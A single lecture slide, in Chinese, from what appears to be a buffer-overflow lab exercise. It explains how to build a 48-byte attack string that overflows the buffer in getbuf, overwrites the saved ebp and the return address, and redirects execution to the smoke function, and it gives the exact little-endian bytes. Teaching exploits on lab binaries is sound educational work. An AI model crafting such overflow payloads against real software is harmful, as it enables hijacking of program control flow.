

# 任务一实验示例（续）
3）设计攻击字符串。
       攻击字符串的功能是用来覆盖getbuf函数内的数组buf，进而溢出并覆盖ebp和ebp上面的返回地址，所以攻击字符串的大小应该是0x28+4+4=48个字节。攻击字符串的最后4个字节应是smoke函数的地址。这样的攻击字符串为：
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 90 8c 04 08
       总共48个字节。前面44个字节可以为任意值，最后四个字节正确地设置为“90 8c 04 08”。
       注：smoke的地址是0x8048c90，而作为字节数据且为小端格式，字节值为“90 8c 04 08”。